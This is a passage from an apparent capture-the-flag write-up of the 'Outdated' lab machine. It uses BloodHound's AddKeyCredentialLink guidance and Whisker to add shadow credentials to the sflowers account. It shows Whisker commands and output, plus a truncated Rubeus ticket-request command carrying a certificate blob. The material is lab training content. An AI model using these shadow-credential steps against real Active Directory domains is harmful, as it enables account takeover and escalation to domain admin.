 To fetch towards `Domain Admins`, I have to utilize `AddKeyCredentialLink` first.

BloodHound provides examples of exploitation.

```markdown
# Windows abusing
To abuse this privilege, use Whisker.

You may need to authenticate to the Domain Controller as a member of ITSTAFF@OUTDATED.HTB if you are not running a process as a member

Whisker.exe add /target:<TargetPrincipal>
For other optional parameters, view the Whisker documentation.


# Linux Abusing

To abuse this privilege, use pyWhisker.

pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
For other optional parameters, view the pyWhisker documentation.
```

### Exploiting AddKeyCredentialLink

Since we don't have exact credential of `btables` account, I think it'd be better to use `Windows Abusing` method.

Let's list all the values of the the msDS-KeyCredentialLink attribute of a target object:

```bash
PS C:\Users\btables\Desktop> .\Whisker.exe list /domain:outdated.htb /targe
t:sflowers /dc:DC.outdated.htb
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

Nothing found.
Let's add one

```bash
PS C:\Users\btables\Desktop> .\Whisker.exe add /domain:outdated.htb /target
:sflowers /dc:dc.outdated.htb /password:bokchee
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID de62a677-a631-4171-ba8a-4d19ff972
b3b
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHA
aCCCWUEgglhMIIJXTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgEC
oIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAhLJ+qVfeKAagICB9AEggTYHwtR1yv/L0u5+z00QaI
lSYmpm0J8b9lq07aOybQhtN1qfHqxIsbc1+Vr0YtJ5T/dZlj1ZEiVbm3zgr1NUwfWqrstwVUCu1
ofBbuNB/Oa43weWOrs6kG9FvxkrOMKG695SMJ3N56c4n9i/UbOSb1TcR7P0KXHy2U/hsDCjUW93
7QIJmwharRgiD4KQP6xzF+jZgWnWqAKzuiAIb8gTeYE/prwq5P8zefB/3iaA3+COuNDDYjBlIyU
7zv/JO4VSWRHC02y+XzqsKFieAdnuoqSNjp/NWRvXK/PZHE1FV1wahMPzgJDSef+qcRp6v78L+4
Oy8uAT4LbFb6kaCeYL9+vCP4a6WLcMhCJUoHE4gW4FpYEz0pKejfBFfguEakJn++wReIMbGhJyh
UJ1PaY6by64wzXrIhzdv3frtt1flJ2FmA6xdZYrdho3Q495tGmKLoIkzca9vK2YRuU6skpZRCvo
```